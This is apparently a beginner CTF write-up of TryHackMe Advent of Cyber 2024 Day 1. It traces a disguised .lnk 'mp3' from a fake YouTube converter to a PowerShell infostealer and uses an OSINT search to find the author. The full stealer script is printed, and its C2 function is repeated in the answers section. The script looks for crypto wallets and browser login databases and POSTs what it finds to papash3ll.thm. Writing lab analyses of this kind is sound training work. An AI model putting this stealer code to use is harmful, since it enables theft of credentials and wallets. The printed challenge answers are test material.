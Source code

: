 ```yaml
---
title: Try Hack Me Advent of Cyber 2024 - Day 1
date: 2025-02-09
categories: [opsec, writeups]
tags: [opsec, purple]      # TAG names should always be lowercase
---
```


# Advent of Cyber 2024 Day 1








## Challenge info:




This is the day 1 challenge for the advent of a cyber event that was held this past holiday season that I missed. These challenges are easy and digestible targeted towards beginners. I am mainly walking through them for some quick learning and brushing up on some skills, as well I want to find the keycards for the harder side quest challenges. This challenge focuses on a OPSEC challenge that is focused on a youtube to mp3 style site.












## Walkthrough steps:




![alt text](../assets/imgs/aocday1/image-12.png)




The first thing I did on this site was try to upload a random youtube video to the site and download it as a `mp3`.


![alt text](../assets/imgs/aocday1/image-14.png)


Next we can download the file. This results in a zip folder so let's check it out...


![alt text](../assets/imgs/aocday1/image-15.png)




After extracting the contents we are greeted to 2 files `song.mp3` and `somg.mp3`, but weirdly one of them is executable...


![alt text](../assets/imgs/aocday1/image-16.png)


When we inspect the file types we can find something concerning...


![alt text](../assets/imgs/aocday1/image-17.png)


`somg.mp3` is a windows shortcut linker script. Lets check it out with `exiftool`.


![alt text](../assets/imgs/aocday1/image-18.png)




At the bottom of the output we can see a powershell command.


![alt text](../assets/imgs/aocday1/image-19.png)


Lets checkout that github file download. By following the link we can find the following code.




```
function Print-AsciiArt {
   Write-Host "  ____     _       ___  _____    ___    _   _ "
   Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" 
   Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
   Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
   Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"


   Write-Host "         Created by the one and only M.M."
}


# Call the function to print the ASCII art
Print-AsciiArt


# Path for the info file
$infoFilePath = "stolen_info.txt"


# Function to search for wallet files
function Search-ForWallets {
   $walletPaths = @(
       "$env:USERPROFILE\.bitcoin\wallet.dat",
       "$env:USERPROFILE\.ethereum\keystore\*",
       "$env:USERPROFILE\.monero\wallet",
       "$env:USERPROFILE\.dogecoin\wallet.dat"
   )
   Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
   foreach ($path in $walletPaths) {
       if (Test-Path $path) {
           Add-Content -Path $infoFilePath -Value "Found wallet: $path"
       }
   }
}


# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
   $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"


   Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
   if (Test-Path $chromePath) {
       Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
   }
   if (Test-Path $firefoxPath) {
       Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
   }
}


# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
   $c2Url = "http://papash3ll.thm/data"
   $data = Get-Content -Path $infoFilePath -Raw


   # Using Invoke-WebRequest to send data to the C2 server
   Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}


# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server


```


This looks to be some kind of infostealer and at the top we can see a pretty unique str "Created by the one and only M.M.". We can search for this string on github to see if we get any hits. This would be bad for the malicious actor who wrote this script.


![alt text](../assets/imgs/aocday1/image-22.png)


We can see a few different results (I assume some are writeups or reposts as this challenge is old now.) The one that we want is at the bottom of the page so let's check it out.


![alt text](../assets/imgs/aocday1/image-23.png)


If we scroll down further we can see the same script that we downloaded.


![alt text](../assets/imgs/aocday1/image-24.png)


If we navigate to this user's github we can find the following.


![alt text](../assets/imgs/aocday1/image-25.png)




We should now have enough info to answer the following questions.


## Questions and Flags:


* Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?


   * ![alt text](../assets/imgs/aocday1/image-26.png)


* The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


   * We can find this in the stealer script.
   ```
       # Function to send the stolen info to a C2 server
       function Send-InfoToC2Server {
           $c2Url = "http://papash3ll.thm/data"
           $data = Get-Content -Path $infoFilePath -Raw


           # Using Invoke-WebRequest to send data to the C2 server
           Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
       }
   ```
   * "http://papash3ll.thm/data"


* Who is M.M? Maybe his Github profile page would provide clues?
   * We can gain this information from that github profile we found while doing some basic opsec.
   ![alt text](../assets/imgs/aocday1/image-25.png)


* What is the number of commits on the GitHub repo where the issue was raised?


   * We can find this by going back to the issue where `mayor malware` commented and then clicking the repo. Then we can view the commits of the repo.


   ![alt text](../assets/imgs/aocday1/image-27.png)




* What's with all these GitHub repos? Could they hide something else?


   * This hint at the bottom caught my eye as I am hunting for the keys to do the harder side quest challenges but I will save the keycard hunting for the side quest writeups.







































